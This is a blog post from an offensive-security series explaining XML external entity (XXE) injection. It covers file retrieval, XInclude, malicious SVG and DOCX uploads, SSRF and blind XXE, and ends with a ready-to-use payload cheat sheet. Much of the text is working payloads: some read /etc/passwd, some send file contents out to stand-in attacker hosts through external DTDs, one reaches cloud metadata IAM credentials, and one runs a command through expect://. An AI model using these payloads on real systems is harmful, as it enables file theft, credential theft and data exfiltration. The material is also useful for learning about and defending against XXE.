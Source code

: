 ```yaml
---
title: "XXE"
date: 2021-06-07T18:17:00+07:00
draft: false
categories: [
    "Offensive Security"
]
tags: [
    "XXE",
]
---
```

* [What is XXE](#what-is-xxe)
* [Types of XXE attacks](#types-of-xxe-attacks)
    * [XXE To retrieve files](#xxe-to-retrieve-files)
        * [Example](#example)
        * [XXE through the XInclude tag](#xxe-through-the-xinclude-tag)
        * [Exploiting XXE using SVG Files or docx files or xlsx files](#exploiting-xxe-using-svg-files-or-docx-files-or-xlsx-files)
    * [XXE Into SSRF](#xxe-into-ssrf)
    * [Blind XXE](#blind-xxe)
* [Payloads](#payloads)
* [Note](#note)
* [References](#references)
## What is XXE
XXE = XML eXternal Entities

XXE can occur when XML documents get parsed. We traditionally think of XXE vulnerabilities as uploading an XML file that includes an external entity, an example of this would be:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```
We might be able to upload this file if we save it as .xml into an application that process XML files but what some people don't know is that some other file types consist of XML files. 
## Types of XXE attacks
XXE can be abused to perform several types of attacks. It can even be chained into things like SSRF.
* XXE to retrieve files
* XXE to perform SSRF
* Blind XXE
### XXE To retrieve files
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<product>&xxe;</product>
<adress>&xxe;</adress>
```
In this example we first define the document type and in there we define a new Entity called "XXE". This entity is made to execute a system call. This can be anything like ls, a reverse shell or in this case a file inclusion. It will grab the /etc/passwd file.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
Next we will display that entity xxe into every possible field of our XML file. It's very important to insert your XXE entity into every single XML element. Any of them can be vulnerable as the developer has to filter ALL the fields indivually.\
#### Example
Request
![retrieve_file_1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_1.PNG)
![retrieve_file_2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_2.PNG)
From here, we can modify the XML data to add in an XXE to request the file we wish to target.
![retrieve_file_3.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_3.PNG)
Response
![retrieve_file_4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/retrieve_file_4.PNG)
#### XXE through the XInclude tag
Often, an attacker does not have full control over the XML data, but has control over an input passed into the data. In these cases, they can’t inject an entity before the XML parameters, which makes it appear impossible to conduct XXE attacks. Often however, it is possible to do a XXE attack with just access to a single parameter, using the XInclude feature of XML.\
XInclude can be thought of as a way of including another XML document within an existing one. Using this feature, we can include a XML component that defines our external entity, and use that to leak data from the server. In this situation, the data sent from the client includes only the parameters required to add to the XML.
![xinclude1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude1.PNG)
To setup the XInclude, we need to inject data into the product ID parameter. The payload will look like below.
![xinclude2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/xinclude2.PNG)
Without all of the encoding, the payload is:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
#### Exploiting XXE using SVG Files or docx files or xlsx files
Gen docx file with python
![docx1.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx1.PNG)
A Docx file is mostly just zipped up xml files. We need to unzip the resume.docx file and modify the contents in “word/document.xml”. Then, save our changes back to resume.docx.
![docx2.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx2.PNG)
Two modifications are needed in document.xml.
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
![docx4.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/docx4.PNG)
You can do the same with xlsx and svg
![svg.PNG](https://raw.githubusercontent.com/tranquac/Blog_Image/master/xxe/svg.PNG)
### XXE Into SSRF
A SSRF attack allows an attacker to perform server-side request forgery. This basically means that the attacker can make HTTP requests to any URL the server can access. This means that they can access URLs that they typically don’t have permission to access, which could potentially leak data.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM
"http://intranet.cheeseshop.com"> ]>
```
### Blind XXE
The majority of XXE vulnerabilities in the wild will be blind XXE attacks. To detect these we can use an out of band webserver that we host ourselves and make the target do a callback to our server using the same technique we used previously in XXE into SSRF.
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
]>
```
If we detect blind XXE, we can exfiltrate data via OAST
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webattacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
Our first entity will grab the data file /etc/passwd and our second entity will make a callback to our server with the contents of the /etc/passwd file in a get parameter.
## Cheetsheat
```xml
 --------------------------------------------------------------------
using external entities:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
--------------------------------------------------------------------
perform SSRF attacks:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction:
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
--------------------------------------------------------------------
Blind XXE with out-of-band interaction via XML parameter entities:
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>
--------------------------------------------------------------------
blind XXE to exfiltrate data using a malicious external DTD:
DTD file:
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
blind XXE to retrieve data via error messages:
DTD file:
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
XXE Payload:
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
-------------------------------------------------------------------
XInclude to retrieve files:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
-------------------------------------------------------------------
XXE via image file upload:
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
--------------------------------------------------------------------
XXE inside SOAP body:
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
-------------------------------------------------------------------
XXE: Base64 Encoded:
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
-------------------------------------------------------------------
XXE inside SVG:
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
--------------------------------------------------------------------
```
## Note
Alway check file upload can inject xml
* profile pictures (.svg)
* banners (.svg)
* photo albums (.svg)
* XML imports (.xml)
* DOCX/XLSX imports (.docx/.xlsx)
* SOAP requests
* ...

## References

-[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)\
-[https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/)

